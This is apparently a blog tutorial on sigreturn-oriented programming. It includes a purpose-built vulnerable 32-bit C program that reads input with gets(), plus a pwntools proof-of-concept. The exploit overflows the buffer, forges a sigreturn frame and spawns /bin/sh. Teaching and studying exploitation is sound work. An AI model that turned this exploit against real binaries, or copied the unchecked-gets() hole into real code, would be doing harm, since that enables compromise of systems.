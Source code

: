 ```yaml
---
layout: post
title: How to SROP
author: adamt
---
```


Sigreturn Orientated programming (SROP) is a cool exploitation technique that allows an attacker to controll the entire state of the CPU with a single syscall and some stack space, possibly leading to code execution.


[https://github.com/adamtanana/SROP-walkthrough][tl;dr]

How-to
------------------

SROP is very similar to ROP, in which by controlling the stack and the instruction pointer, the attacker is able to influence the control flow of the program through a sequence of gadgets (Small sets of instructions ending in a `ret` or `call` instruction). 
<br />
In cases where there aren't sufficient enough gadgets, or no gadgets that allow the attacker to execute arbritrary code, SROP may be a possible solution.  
SROP works by pushing a forged `sigcontext` structure to the stack, and then overwriting the return address with the location of a gadget(s) that will allow the attacker to execute the sigreturn syscall. 

An example sigconext struct can be seen here from x86 Linux libc
<https://github.com/lattera/glibc/blob/master/sysdeps/unix/sysv/linux/x86/bits/sigcontext.h#L95>
```c
struct sigcontext
{
  unsigned short gs, __gsh;
  unsigned short fs, __fsh;
  unsigned short es, __esh;
  unsigned short ds, __dsh;
  unsigned long edi;
  unsigned long esi;
  unsigned long ebp;
  unsigned long esp;
  unsigned long ebx;
  unsigned long edx;
  unsigned long ecx;
  unsigned long eax;
  unsigned long trapno;
  unsigned long err;
  unsigned long eip;
  unsigned short cs, __csh;
  unsigned long eflags;
  unsigned long esp_at_signal;
  unsigned short ss, __ssh;
  struct _fpstate * fpstate;
  unsigned long oldmask;
  unsigned long cr2;
};
```

An example of the kind of gadget needed for SROP exploits can always be found in the VDSO memory area on x86-Linux systems
```c
  pop     eax
  mov     eax, 0x77
  int     0x80;
  nop
  lea     esi, [esi+0]
```
This will execute a sigreturn syscall. <br />

Here is an example of SROP in a 32 bit linux environment. Luckily `pwntools` comes handy with a SROP library which allows us to construct a sigcontext for any architecture without needing to worry about the exact ordering and sizing of each element. I'll utilise this below 

Example 32bit vulnerable code
```C
#include <stdio.h>
#include <stdlib.h>

static char* dodgy = "/bin/sh";

void func() {
    __asm__(  // all typical things found via a libc leak, or a large binary
          "mov $0x77, %eax;"
          "ret;"
          "int $0x80"
            );
}
void vuln() {
    printf("Hey look its a cheeky gadget\n");
    printf("func: %p\n", func);
    printf("/bin/sh: %p\n", dodgy);

    char buf[4];
    gets(buf);
}

int main() {
    vuln();
}
```
The code has the 3 requirements needed to leverage the SROP technique.

- Gadget(s) that will call the sigreturn syscall (In i386 linux this is syscall number 0x77, in amd64 linux it is )
- Enough Stack space to place an entire `sigcontext` struct
- Somewhere to jump to after the syscall has been evoked (in this case we can just jump to the syscall(int 0x80) gadget since we can ensure all registers are set to the required values to execute any syscall)

We can construct our sigreturn frame, setting the relevant registers required to execute an execve syscall, and then gain shell via a single ROP Gadget. Below is a POC

```python
from pwn import *


def leak(p):                               # Leak the address of our planted  
    p.recvuntil("func: 0x")
    func = int(p.recvline(), 16)

    p.recvuntil("/bin/sh: 0x")
    binsh = int(p.recvline(), 16)

    log.info("Func 0x%x. /bin/sh 0x%x" % (func, binsh))

    return func, binsh

def main():
    context.arch = 'i386'
    p = process("./srop32")

    func, binsh = leak(p)

    moveax = func + 13
    int0x80 = func + 19

    frame = SigreturnFrame(kernel='amd64') # Construct our Sig Return Frame
    frame.eax = constants.SYS_execve       # Syscall to call
    frame.ebx = binsh                      # First argument to execve
    frame.eip = int0x80                    # Return here after the syscall


    payload = 'A' * 16                     # Overflow the buffer
    payload += p32(moveax)                 # Mov 0x77 into eax (SYS_sigreturn)
    payload += p32(int0x80)                # Evoke the syscall
    payload += str(frame)                  # Fill the stack with our sigreturn frame
    p.sendline(payload)


    p.interactive()

if __name__ == "__main__":
    main()
```

